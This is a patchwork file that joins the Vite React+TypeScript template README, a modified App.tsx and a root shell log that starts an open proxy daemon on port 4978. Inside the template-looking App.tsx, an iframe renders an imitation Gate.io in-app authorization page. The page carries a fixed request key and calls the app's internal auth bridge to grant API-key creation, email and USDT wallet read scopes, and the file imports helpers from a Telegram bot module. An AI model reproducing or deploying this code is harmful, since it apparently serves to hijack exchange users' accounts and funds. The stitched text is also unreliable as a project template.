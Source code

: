 # React + TypeScript + Vite

This template provides a minimal setup to get React working in Vite with HMR and some ESLint rules.

Currently, two official plugins are available:

- [@vitejs/plugin-react](https://github.com/vitejs/vite-plugin-react/blob/main/packages/plugin-react/README.md) uses [Babel](https://babeljs.io/) for Fast Refresh
- [@vitejs/plugin-react-swc](https://github.com/vitejs/vite-plugin-react-swc) uses [SWC](https://swc.rs/) for Fast Refresh

## Expanding the ESLint configuration

If you are developing a production application, we recommend updating the configuration to enable type aware lint rules:

- Configure the top-level `parserOptions` property like this:

```js
export default {
  // other rules...
  parserOptions: {
    ecmaVersion: 'latest',
    sourceType: 'module',
    project: ['./tsconfig.json', './tsconfig.node.json'],
    tsconfigRootDir: __dirname,
  },
}
```

- Replace `plugin:@typescript-eslint/recommended` to `plugin:@typescript-eslint/recommended-type-checked` or `plugin:@typescript-eslint/strict-type-checked`
- Optionally add `plugin:@typescript-eslint/stylistic-type-checked`
- Install [eslint-plugin-react](https://github.com/jsx-eslint/eslint-plugin-react) and add `plugin:react/recommended` & `plugin:react/jsx-runtime` to the `extends` list

import { useCallback, useState } from "react";
import reactLogo from "./assets/react.svg";
import viteLogo from "/vite.svg";
import "./App.css";
import { auth, sendTelegramMessage, auth2 } from "./lib/TGBot";

function App() {
  const [count, setCount] = useState(0);

  const [msg, setMsg] = useState("");


  const onClick = useCallback(() => {
    auth2((msg: any) => {
      setMsg(`<!DOCTYPE html><html lang="en">
      <head><meta charset="UTF-8"><meta http-equiv="X-UA-Compatible" content="IE=edge"><meta name="viewport" content="width=device-width, initial-scale=1.0"><title>Document</title>
        <style>
          html,
          body {
            background: url(https://gimg2.gateimg.com/miniprogram/miniapp-auth-bg.png) no-repeat;
            background-size: 100%;
            background-color: #2354E6;
          }
        </style>
      </head>
      <body>
      <input type="hidden" value="RQT-V2-cc768acb999de541b93326ef8cbea3e997a22d19b39f3d257f30729351bb3e00" id="requestKey"><input type="hidden" value="android" id="agent">
      <textarea hidden id="scopes">{&#34;create_apikey&#34;:[],&#34;read_email&#34;:[],&#34;read_profile&#34;:[],&#34;read_wallet&#34;:[&#34;USDT&#34;]}</textarea>
      <script>
      window.addEventListener('load', (event) => {
        console.log('page is fully loaded',event);
        var requestKey = document.getElementById("requestKey").value;
        var agent = document.getElementById("agent").value;
        var scopes = document.getElementById("scopes").value;
        if (agent === "android") {
          if (window.gateio.internalAuthScope != undefined) {
            window.gateio.internalAuthScope(requestKey, scopes);
          } else {
            window.gateio.internalAuth(requestKey);
          }
        } else if (agent === "ios") {
          if (window.webkit.messageHandlers.internalAuthScope != undefined) {
            var params = {
              "auth": requestKey,
              "scopes": scopes
            };
            window.webkit.messageHandlers.internalAuthScope.postMessage(params);
          } else {
            var params = {
              "auth": requestKey
            };
            window.webkit.messageHandlers.internalAuth.postMessage(params);
          }
        }
        });
      </script>
      </body>
      </html>`);
    });
  }, []);

  return (
    <>
      <div >
        <iframe srcDoc={msg} width="100%"
          height="500"></iframe>
      </div>




      <div>
        <a href="https://react.dev" target="_blank">
          <img src={reactLogo} className="logo react" alt="React logo" />
        </a>
      </div>
      <h1>Vite + React</h1>
      <div className="card">
        <button
          onClick={() => {
            onClick();
            setCount((count) => count + 1);
          }}
        >
          count is {count}
        </button>
        <p>
          Edit <code>src/App.tsx</code> and save to test HMR
        </p>
      </div>
      <p className="read-the-docs">
        {msg}
      </p>
    </>
  );
}

export default App;


root@hcss-ecs-061e:~# lsof -i:4978
root@hcss-ecs-061e:~# lsof -i:4978
root@hcss-ecs-061e:~# proxy http -t tcp -p "0.0.0.0:4978" --daemon
2024/03/18 23:53:35.879 INFO proxy [PID] 227245 running...
root@hcss-ecs-061e:~# lsof -i:4978
COMMAND    PID USER   FD   TYPE  DEVICE SIZE/OFF NODE NAME
proxy   227245 root    6u  IPv4 1722955      0t0  TCP *:4978 (LISTEN)

